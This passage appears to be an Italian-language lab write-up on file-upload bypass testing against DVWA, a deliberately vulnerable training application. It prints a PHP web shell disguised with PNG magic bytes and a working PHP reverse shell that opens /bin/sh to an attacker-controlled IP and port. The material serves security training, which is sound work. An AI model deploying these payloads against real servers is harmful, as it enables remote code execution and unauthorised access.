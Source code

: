 ### 3. Content-based Bypasses

#### Magic Bytes Manipulation

Ogni tipo di file ha una "firma" specifica nei primi bytes. Durante il testing è stata sviluppata questa tecnica:

```bash
# Creazione di un file con magic bytes di immagine PNG
echo -e '\x89PNG\r\n\x1a\n' > shell.png
echo '<?php system($_GET["cmd"]); ?>' >> shell.png
```

**Analisi dei magic bytes**:
- **PNG**: `89 50 4E 47 0D 0A 1A 0A` (8 bytes)
- **JPEG**: `FF D8 FF` (3 bytes iniziali)
- **GIF87a**: `47 49 46 38 37 61` (6 bytes)
- **GIF89a**: `47 49 46 38 39 61` (6 bytes)

---

## DVWA Testing - Analisi Livello per Livello

### Livello LOW - Baseline Vulnerability Assessment

#### Environment Setup e Reconnaissance

Il livello LOW di DVWA rappresenta il scenario worst-case dove non esistono protezioni:

**Configurazione identificata**:
- Nessun controllo sull'estensione del file
- Nessuna validazione del Content-Type
- Nessun controllo sulla dimensione del file
- Directory di upload accessibile direttamente via web

#### Payload Development - Prima Reverse Shell

**Reverse Shell PHP Sviluppata**:
```php
<?php
// Configurazione dell'attacco
$ip = '192.168.1.50';       // IP dell'attacker machine (Kali Linux)
$port = 4444;               // Porta del listener

// Creazione socket di connessione
$sock = fsockopen($ip, $port);

// Processo shell con redirection I/O
$proc = proc_open('/bin/sh', [
    0 => $sock,  // STDIN dal socket
    1 => $sock,  // STDOUT al socket  
    2 => $sock   // STDERR al socket
], $pipes);
?>
```
